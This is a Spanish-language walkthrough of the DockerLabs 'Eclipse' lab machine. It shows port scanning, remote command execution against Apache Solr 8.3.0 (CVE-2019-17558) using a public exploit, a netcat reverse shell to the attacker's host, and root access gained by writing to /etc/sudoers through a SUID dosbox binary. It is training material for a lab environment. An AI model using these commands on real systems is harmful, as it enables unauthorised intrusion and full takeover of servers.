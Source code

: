 # ECLIPSE - DOCKERLABS

## INFORMACIÓN Y DESPLIEGUE DE LA MÁQUINA

Esta máquina es de [DockerLabs](https://dockerlabs.es)

Para descargarla vas a [DockerLabs](https://dockerlabs.es) y buscas la máquina Eclipse. Abres el enlace de mega, descargas el zip, lo descomprimes y ejecutas `bash ./auto_deploy.sh ./eclipse.tar`. De esta forma se ejecutará el contendor de docker de la máquina.

### descripción

- Dificultad: medio
- Sistema Operativo: linux
- Autor: Xerosec

## ESQEUMA

![eclipse](https://github.com/user-attachments/assets/420788af-e4aa-4cb0-9a52-495dabd0e523)

## ENUMERACIÓN

### conectividad y SO

Primero comprobamos la conectividad con la máquina:

```python
ping -c 1 172.17.0.2
```

![image](https://github.com/user-attachments/assets/a1179084-6908-4198-add6-afb29acdcaa5)

Recibimso respuesta, con TTL 64, por lo que la máquina seguramente use Linux.

### puertos y servicios

Hacemos un escaneo de todo el rango de puertos por TCP con nmap:

```python
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG tcp_ports
```

> `-p-`: todo el rango de puertos

> `--open`: solo reportar los puertos abiertos

> `-sS`: usar el método de escaneo SYN, que es más sigiloso y rápido que el normal. Requiere privilegios a nivel de sistema para enviar raw packets

> `--min-rate 5000` enviar como mínimo 5000 paquetes por segundo

> `-vvv` triple verbose. Nada más descubrir un puerto lo muestra por pantalla, también muestra más información de lo normal sobre el escaneo

> `-n` no hacer resolución DNS

> `-Pn` no hacer host discovery

> `-oG tcp_ports` exportar el output en formato grepeable al archivo `tcp_ports`

![image](https://github.com/user-attachments/assets/866106fc-4051-4c44-b9ff-0ea4ac95c538)

#### puertos abiertos

**80 - TCP - HTTP**

**8983 - TCP - HTTP**

Ahora hacemos un escaneo de versiones y servicios sobre estos dos puertos:

```python
nmap -p80,8983 -sCV 172.17.0.2 -oN targeted
```

> `-p80,8983` hacer el escaneo solo sobre los puertos 80 y 8983

> `-sCV` lanzar escaneo de versiones y scripts estándar de reconocimiento

> `-oN targeted` exportar el output al archivo `targeted`, en formato nmap

![image](https://github.com/user-attachments/assets/d4f5a1fe-6e64-4462-a842-8ac6f4877238)

### puerto 80

Ejecutamos `whatweb http://172.17.0.2` para ver las tecnologías que se están usando, pero no hay información interesante. Cargamos la web en el navegador:

![image](https://github.com/user-attachments/assets/67c06121-a331-4a8d-acab-d692ec9f85df)

Solo hay esta imagen. No encontramos nada interesante en el código HTML ni haciendo esteganografía a la imagen. Tampoco encontramos nada haciendo fuzzing.

### puerto 8983

Ejecutamos `whatweb http://172.17.0.2:8983`. Se hace un redirect a `http://172.17.0.2:8983/solr`, el cual tiene de título "Solr Admin". Cargamos el puerto 8983 en el navegador:

![image](https://github.com/user-attachments/assets/d9323837-82f7-42db-b9a1-6429df4bf979)

Vemos un panel de administración, donde pone "Solr". Gracias a Google, sabemos que Apache Solr es un motor de búqueda de código abierto.

## EXPLOTACIÓN

En el panel podemos apreciar que pone "8.3.0", que parece la versión. Buscamos en Google "Apache Solr 8.3.0 vulnerabilities", y encontramos un [artículo](https://nvd.nist.gov/vuln/detail/cve-2019-17558) del NIST en el que se habla del CVE-2019-17558, una vulnerabilidad que tienen las versiones de Apache Solr desde la 5.0.0 hasta la 8.3.1, en la cual se pueden ejecutar comandos de forma remota en el servidor vulnerable, usando un parámetro llamado "VelocityResponseWriter".

Ahora que ya sabemos que vulnerabilidad presenta, buscamos exploits. Encontramos un [exploit](https://github.com/k8gege/SolrExp) escrito en python. Lo clonamos:

```python
git clone https://github.com/k8gege/SolrExp
```

E intentamos ejecutar el comando `id`:

```python
python2.7 exp.py http://172.17.0.2:8983 id
```

![image](https://github.com/user-attachments/assets/ad211c19-383c-408b-81f2-55d1b6fbbcb6)

Ganamos RCE. Si ejecutamos de forma remota `nc` a través del exploit, vemos que el programa se queda en espera, lo que indica que se está ejecutando netcat. Nos podemos aprovechar de esto para ganar acceso a la máquina.

Ejecutamos en local:

```python
nc -nlvp 443
```

Ejecutamos con el RCE:

```python
python2.7 exp.py http://172.17.0.2:8983 "nc -e /bin/bash 172.17.0.1 443"
```

![image](https://github.com/user-attachments/assets/2e9f95d7-3d24-4309-99ec-675ed713dc92)

Ganamos acceso como el usuario ninhack.

## TRATAMIENTO TTY

```python
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash
stty rows <filas> columns <columnas>
```

Para ver el número de filas y columnas que usa tu pantalla, ejecutas `stty -a`.

## ESCALADA DE PRIVILEGIOS

### root

Buscamos archivos con permisos SUID desde la raíz:

```python
find / -perm -4000 2>/dev/null
```

![image](https://github.com/user-attachments/assets/84b1a0be-5482-4641-8ec5-8bf78aec66a1)

Hay un binario que llama la atención: "dosbox". Buscamos en gtfobins y encontramos una [página](https://gtfobins.github.io/gtfobins/dosbox/) en la que se explica como escalar privilegios si este ejecutable tiene permisos SUID:

![image](https://github.com/user-attachments/assets/52e4c464-2d3b-454f-b7cb-1b6bbe77d664)

Para poder ejecutar cualquier comando como root, añadimos la línea "ninhack ALL = (ALL) NOPASSWD: ALL" al `/etc/sudoers`:

```python
dosbox -c "mount c /" -c "echo ninhack ALL = (ALL) NOPASSWD: ALL >>c:/etc/sudoers" -c exit
```

Una vez hecho, ejecutamos `sudo su`:

![image](https://github.com/user-attachments/assets/73a589a4-1a4c-4622-9e70-e26359104877)

Y ganamos una consola como root en la máquina Eclipse.